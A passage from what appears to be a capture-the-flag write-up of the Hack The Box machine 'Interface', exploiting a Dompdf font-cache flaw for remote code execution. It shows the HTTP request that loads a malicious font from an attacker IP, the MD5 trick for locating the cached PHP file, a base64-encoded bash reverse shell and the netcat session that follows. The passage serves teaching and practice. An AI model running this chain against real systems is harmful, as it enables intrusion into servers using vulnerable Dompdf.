 Not that I had an entry point. I took a better look at [Snyk's post](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/). They also provided a [GitHub repository](https://github.com/snyk-labs/php-goof) with an example exploit. The exploit used the way Dompdf handles fonts to upload a PHP file, and then access it in the cache.

I used the provided reverse shell font.

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 81

{
    "html": "<link rel=stylesheet href='http://10.10.14.8/rshell.css'>"
}
```

The application loaded the CSS and the font from my machine. But I could not access uploaded PHP. The blog post mention this being harder as the file gets renamed, and the cache can be in a different place. From my enumeration, I already knew where Dompdf was. I looked at the code and saw that the hash that was added to the font name and family was simply an MD5 of where it was downloaded from. 

```bash
$ echo -n "http://10.10.14.8/rshell_font.php?raw=true" | md5sum
842b6ee4726ff6acf88d95fcec66762d  -
```

With that, I could access the uploaded PHP file at 'http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/rshell_normal_842b6ee4726ff6acf88d95fcec66762d.php'.
 
I encoded the bash reverse shell command to make using it as a URL parameter easier. 

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.8/4444  0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0ICAwPiYxICAK
```

I started a netcat listener and navigated to the font PHP file.


```
http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/rshell_normal_842b6ee4726ff6acf88d95fcec66762d.php?test=echo%20`echo%20-n%20YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0ICAwPiYxICAK%20|%20base64%20-d%20|%20bash`;
```

I was in the machine and I had the user flag.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.200] 48832
bash: cannot set terminal process group (1296): Inappropriate ioctl for device
bash: no job control in this shell

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls /home
ls /home
dev

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls /home/dev
ls /home/dev
user.txt

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ cat /home/dev/user.txt
```